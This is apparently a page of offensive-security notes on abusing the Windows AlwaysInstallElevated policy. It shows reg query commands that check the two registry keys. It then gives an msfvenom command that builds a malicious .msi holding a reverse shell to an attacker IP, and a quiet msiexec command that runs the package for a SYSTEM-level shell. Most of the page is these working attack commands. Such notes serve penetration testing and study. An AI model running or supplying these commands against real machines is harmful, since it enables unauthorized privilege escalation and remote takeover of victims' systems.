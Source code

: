 # AlwaysInstallElevated

The `AlwaysInstallElevated` policy can be enabled to allow install of a Windows Installer package with elevated (system) privileges.

> This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.

To install a package with elevated (system) privileges, set the AlwaysInstallElevated value to **`1`** under both of the following registry keys:

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

`HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`



**The following commands can be used to query the values:**

```powerquery
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If both of the values are set to **1**, a malicious`.msi` file can be created (`msfvenom`) to start a reverse shell with administrative privileges.&#x20;

**Attacker machine**

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=[attacker_ip] lport=[port] -f msi -o malicious.msi
```

The `.msi` file can be executed on the target machine with the following command:

```powershell
C:\> msiexec /quiet /qn /i [path_to_msi_file]

# eg.
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

The Metasploit handler should be started on the attacker machine:&#x20;

{% embed url="https://jarrettgxz-sec.gitbook.io/offensive-security/vulnerability-and-exploitation/msfvenom#module-to-use-on-the-attacking-machine-to-catch-a-shell" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated" %}
